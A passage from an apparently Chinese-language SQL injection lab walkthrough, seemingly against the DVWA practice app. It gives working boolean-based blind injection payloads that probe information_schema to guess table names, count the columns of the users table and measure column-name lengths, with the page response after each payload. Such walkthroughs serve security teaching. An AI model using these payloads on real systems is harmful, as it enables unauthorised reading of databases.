 > 

> 1’ and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))>103 # 显示不存在



说明第一个表的名字的第一个字符为小写字母g。



…



重复上述步骤，即可猜解出两个表名（guestbook、users）。



### **4.猜解表中的字段名**



首先猜解表中字段的数量：



> 1’ and (select count(column\_name) from information\_schema.columns where table\_name= ’users’)=1 # 显示不存在

> 

> …

> 

> 1’ and (select count(column\_name) from information\_schema.columns where table\_name= ’users’)=8 # 显示存在



说明users表有8个字段。



接着挨个猜解字段名：



> 1’ and length(substr((select column\_name from information\_schema.columns where table\_name= ’users’ limit 0,1),1))=1 # 显示不存在

> 

> …

> 

> 1’ and length(substr((select column\_name from information\_schema.columns where table\_name= ’users’ limit 0,1),1))=7 # 显示存在



说明users表的第一个字段为7个字符长度。



采用二分法，即可猜解出所有字段名。

